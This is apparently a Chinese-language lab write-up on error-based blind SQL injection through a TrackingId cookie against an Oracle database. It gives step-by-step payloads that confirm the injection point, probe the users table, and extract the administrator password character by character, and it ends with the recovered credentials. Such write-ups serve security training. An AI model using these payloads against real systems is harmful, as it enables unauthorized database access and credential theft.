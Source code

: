 修改的参数是Cookie的值
①找到是否存在注入点
```SQL
TrackingId=xyz'   --报错
TrackingId=xyz''  --不报错
```
②确定是不是Oracle
```SQL
TrackingId=xyz'||(SELECT '')||' --报错
TrackingId=xyz'||(SELECT ''FROM DUAL)||' --不报错
```
报错证明是Oracle数据库，要用到DUAL这个特殊的表
③验证users表的确存在
```SQL
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
④检验选择结构能否使用
```SQL
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
其中TO_CAHR()函数，将括号内的东东转化为字符串，由于1/0明显不合法，故会直接报错
```SQL
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
执行空操作，不会报错
⑤看用户名administrastor是否真正存在
```SQL
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
报错，证明存在
⑥找到密码的长度
```SQL
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
1逐渐增加，直到不报错为止
⑦逐位确定密码
```SQL
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

放入Intruder并为a加上负载
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
administrator
wqfaz8r1p9ac5qcabx8f